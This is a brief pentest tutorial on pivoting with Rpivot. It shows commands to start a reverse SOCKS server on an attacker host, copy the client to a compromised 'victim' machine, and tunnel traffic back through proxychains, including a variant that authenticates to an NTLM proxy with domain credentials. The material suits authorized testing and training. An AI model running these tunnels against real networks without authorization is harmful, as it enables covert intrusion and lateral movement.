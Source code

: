 ```yaml
---
description: >-
  Rpivot is a reverse SOCKS proxy tool written in Python for SOCKS tunneling.
  Rpivot binds a machine inside a network to and external server and exposes the
  client's local port on the server-side.
---
```


# Web Server Pivoting with Rpivot

**Clone Rpivot**

```shell-session
attacker@kali$ git clone https://github.com/klsecservices/rpivot.git
```

**Running server.py from the Attack Host**

```shell-session
attacker@kali$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

We need to transfer the _**client.py**_ to the target.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ scp -r rpivot ubuntu@&#x3C;IpaddressOfTarget>:/home/ubuntu/
</strong></code></pre>

**Running client.py from Pivot Target (python2.7 required)**

```shell-session
victim@ubuntu:~/rpivot$ python2.7 client.py --server-ip <attacker-ip> --server-port 9999
```

We can configure proxychains to pivot over our local server on localhost:9050 that was started by the Rpivot python server.

```shell-session
proxychains firefox-esr 172.16.5.135:80
```



Some organizations have HTTP-proxy with NTLM authentication configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot. We do so by providing the username and password via the NTLMproxy.

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

_**Proxy Authentication using NTLM:**_

[https://learn.microsoft.com/en-us/openspecs/office\_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a](https://learn.microsoft.com/en-us/openspecs/office\_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a)\
